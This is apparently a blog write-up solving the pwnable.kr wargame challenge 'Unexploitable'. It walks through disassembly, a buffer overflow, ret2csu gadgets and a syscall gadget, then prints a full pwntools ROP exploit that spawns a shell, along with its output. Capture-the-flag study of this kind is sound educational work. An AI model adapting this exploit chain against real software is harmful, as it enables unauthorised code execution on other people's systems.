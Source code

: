 ```yaml
---
layout: post
title: pwnable.kr - Unexploitable
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Wargame
  - pwnable.kr
  - pwnable
published: true
---
```


The challenge named "Unexploitable" which is one of Hacker's Secret and has 500 points.

<!--more-->

## Overview
The main function has few code.
```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400544 <+0>:	push   rbp
   0x0000000000400545 <+1>:	mov    rbp,rsp
   0x0000000000400548 <+4>:	sub    rsp,0x10
   0x000000000040054c <+8>:	mov    edi,0x3
   0x0000000000400551 <+13>:	mov    eax,0x0
   0x0000000000400556 <+18>:	call   0x400450 <sleep@plt>
   0x000000000040055b <+23>:	lea    rax,[rbp-0x10]
   0x000000000040055f <+27>:	mov    edx,0x50f
   0x0000000000400564 <+32>:	mov    rsi,rax
   0x0000000000400567 <+35>:	mov    edi,0x0
   0x000000000040056c <+40>:	mov    eax,0x0
   0x0000000000400571 <+45>:	call   0x400430 <read@plt>
   0x0000000000400576 <+50>:	leave  
   0x0000000000400577 <+51>:	ret    
End of assembler dump.
```
From above, we know that we can use two functions (sleep, read) and overflow the buffer. 

## Payload Building
I need the ability that writes and reads arbitrary memory or calls arbitrary code but all we have is just overflowable read functions in main. So, I looked through main function and found syscall gadget which can be used for getting shell.
```
...
0x0000000000400560 (main+28) : syscall
...
```
And also I found some gadgets that looks useful from [ropshell](http://ropshell.com/).
csu_set:
```
0x4005e6 <__libc_csu_init+102>: mov rbx,QWORD PTR [rsp+0x8]
0x4005eb <__libc_csu_init+107>: mov rbp,QWORD PTR [rsp+0x10]
0x4005f0 <__libc_csu_init+112>: mov r12,QWORD PTR [rsp+0x18]
0x4005f5 <__libc_csu_init+117>: mov r13,QWORD PTR [rsp+0x20]
0x4005fa <__libc_csu_init+122>: mov r14,QWORD PTR [rsp+0x28]
0x4005ff <__libc_csu_init+127>: mov r15,QWORD PTR [rsp+0x30]
0x400604 <__libc_csu_init+132>: add rsp,0x38
0x400608 <__libc_csu_init+136>: ret
```
csu_call:
```
0x4005d0 <__libc_csu_init+80>: mov rdx,r15
0x4005d3 <__libc_csu_init+83>: mov rsi,r14
0x4005d6 <__libc_csu_init+86>: mov edi,r13d
0x4005d9 <__libc_csu_init+89>: call QWORD PTR [r12+rbx*8]
```
We can call arbitrary function with arbitrary arguments (max: 3) using this gadgets now. But for getting shell with syscall, we have to satisfy some condition. See [Linux System Call Table For X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).
![]({{ site.baseurl }}/images/KRater/2020-08-18-pwnable-kr-Unexploitable/pic01.png)

The pointer of filename - rdi - will be .bss section which has `/bin/sh` string. And rax, which has to be 59, will be set by the return value of read function.

## Exploit

Full exploit code:
```python
from pwn import *

csu_set = 0x4005e6
csu_call = 0x4005d0
main_addr = 0x400544
syscall_addr = 0x400560
read_got = 0x601000
sleep_got = 0x601010

bss = 0x601000
binsh = bss + 0x28 # 0x601028
rax_dummy = bss + 0x38 # 0x601038

def chain(func, arg1, arg2, arg3):
    payload = p64(0)
    payload += p64(0)
    payload += p64(1)
    payload += p64(func)
    payload += p64(arg1)
    payload += p64(arg2)
    payload += p64(arg3)

    payload += p64(csu_call)

    return payload

r = process("/home/unexploitable/unexploitable")
p = log.progress("Getting shell...")
p.status("Doing exploit... (1/2)")

sleep (3)

payload = "A"*24 + p64(csu_set) + chain(bss, 0, binsh, 0x8) + p64(main_addr)*10
r.send(payload)

sleep (0.5)

r.send("/bin/sh\x00")

sleep (3)

payload = "B"*24 + p64(csu_set) + chain(read_got, 0, sleep_got, 8) + chain(read_got, 0, rax_dummy, 59) + chain(sleep_got, binsh, 0, 0)
r.send(payload)

p.status ("Doing exploit... (2/2)")

sleep (0.5)

r.send(p64(syscall_addr))

sleep (0.5)

r.send("C"*59)

p.success("done ;)")

r.interactive()
```

```bash
unexploitable@pwnable:blahblah$ python attack.py 
[+] Starting local process '/home/unexploitable/unexploitable': pid 426386
[+] Getting shell...: done ;)
[*] Switching to interactive mode
$ id
uid=1074(unexploitable) gid=1074(unexploitable) egid=1075(unexploitable_pwn) groups=1075(unexploitable_pwn),1074(unexploitable)
```